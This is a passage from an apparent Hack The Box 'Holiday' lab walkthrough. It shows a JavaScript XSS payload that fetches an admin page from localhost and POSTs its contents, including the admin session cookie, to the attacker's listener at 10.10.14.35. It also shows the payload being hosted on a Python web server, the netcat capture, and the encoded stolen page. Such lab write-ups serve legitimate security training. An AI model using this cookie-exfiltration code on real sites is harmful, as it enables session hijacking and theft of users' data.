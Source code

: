 We now know we can pull a file and the server executes the Javascript in it. Let's do another script, this time to grab the cookie of the admin process on the box that approves the notes:

```text
root@kali:~/htb/holiday# cat inject.js
var req1 = new XMLHttpRequest();
req1.open('GET', 'http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65', false);
req1.send();
var response = req1.responseText;
var req2 = new XMLHttpRequest();
var params = "cookie=" + encodeURIComponent(response);
req2.open('POST', 'http://10.10.14.35:8000/pencer', true);
req2.setRequestHeader('Content-Type', 'text/plain');
req2.send(params);
```

Here we are getting the box to pull this script from our waiting web server on port 80, then POST a response back to a waiting NetCat listener on port 8000. The contents of that POST will contain URL a encoded page including the cookie of the admin service that runs every minute.

Get things set up on Kali, submit the note, and fingers crossed we get our response captured in a file. First we see a hit on the webserver:

```text
root@kali:~/htb/holiday# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.25 - - [18/Jun/2020 21:59:09] "GET /inject.js HTTP/1.1" 200 -
```

Then we receive the POST to NetCat, which dumps it to a file:

```text
root@kali:~/htb/holiday# nc -nlvp 8000 | tee -a response.txt
listening on [any] 8000 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.10.25] 38934
POST /pencer HTTP/1.1
Referer: http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65
Origin: http://localhost:8000
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Content-Type: text/plain
Accept: */*
Content-Length: 31068
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,*
Host: 10.10.14.35:8000

cookie=%3C!DOCTYPE%20html%3E%0A%3Chtml%20lang%3D%22en%22%3E%0A%20%20%3Chead%3E%0A%20%20%20%20%20%20%3Cmeta%20charset%3D%22utf-8%22%3E%0A%20%20%20%20%20%20%3Cmeta%20http-equiv%3D%22X-UA-Compatible%22%20content%3D%22IE%3Dedge%22%3E%0A%20%20%20%20%20%20%3Ctitle%3EBooking%20Management%3C%2Ftitle%3E%0A%20%20%20%20%20%20%3Cmeta%20name%3D%22viewport%22%20content%3D%22width%3Ddevice-width%2C%20minimum-scale%3D1.0%2C%20maximum-scale%3D1.0%22%3E%0A%20%20%20%20%20%20%3Clink%20rel%3D%22stylesheet%22%20type%3D%22text%2Fcss%22%20href%3D%22%2Fcss%2Fbootstrap.min.css%22%20%2F%3E%0A%20%20%20%20%20%20%3Clink%20rel%3D%22stylesheet%22%20type%3D%22text%2Fcss%22%20href%3D%22%2Fcss%2Fmain.min.css%22%20%2F%3E%0A%20%20%20%20%20%20%3Cscript%20src%3D%22%2Fjs%2Fjquery.min.js%22%3E%3C%2Fscript%3E%0A%20%20%20%20%20%20%3Cscript%20src%3D%22%2Fjs%2Fbootstrap.min.js%22%3E%3C%2Fscript%3E%0A%20%20%3C%2Fhead%3E%0A%0A%20%20%3Cbody%3E%0A%20%20%
<SNIP>
```
